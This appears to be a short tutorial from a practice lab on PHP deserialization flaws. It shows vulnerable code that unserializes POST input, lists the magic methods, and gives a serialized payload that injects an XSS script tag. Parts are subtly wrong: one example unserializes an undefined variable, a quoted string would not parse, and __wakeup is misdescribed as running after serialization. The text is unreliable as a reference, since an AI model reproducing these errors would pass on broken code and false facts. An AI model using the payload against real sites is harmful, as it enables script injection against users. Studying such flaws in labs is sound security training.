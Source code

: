 It is to restore the serialized string to an object, and then continue to use it in the next code.

$u=unserialize("O:1:"S":1:{s:4:"test";s:7:"pikachu";}");
echo $u->test; //The result is pikachu
There is no problem with serialization and deserialization itself, but if the content of deserialization is controllable by the user, and the magic function in PHP is improperly used in the background, it will lead to security problems

Several common magic functions:

__construct() is called when an object is created

__destruct() is called when an object is destroyed

__toString() is used when an object is treated as a string

__sleep() runs on the object before it is serialized

__wakeup will be called immediately after serialization
Vulnerability example:

class S{
     var $test = "pikachu";
     function __destruct(){
         echo $this->test;
     }
}
$s = $_GET['test'];
@$unser = unserialize($a);

payload:O:1:"S":1:{s:4:"test";s:29:"<script>alert('xss')</script>";}
Server-side core code

class S{
     var $test = "pikachu";
     function __construct(){
         echo $this->test;
     }
}

if(isset($_POST['o'])){
     $s = $_POST['o'];
     if(!@$unser = unserialize($s)){
         $html.="<p>Big brother, let's have some fun!</p>";
     }else{
         $html.="<p>{$unser->test}</p>";
     }

}
exploit

First, you need to define a variable in PHP, write the variable as a malicious code and serialize it, access the written php file and view the source code, copy the serialized code as the payload

Online deserialization tool: https://www.w3cschool.cn/tools/index?name=unserialize

payload: O:1:"S":1:{s:4:"test";s:29:"<script>alert('xss')</script>";}
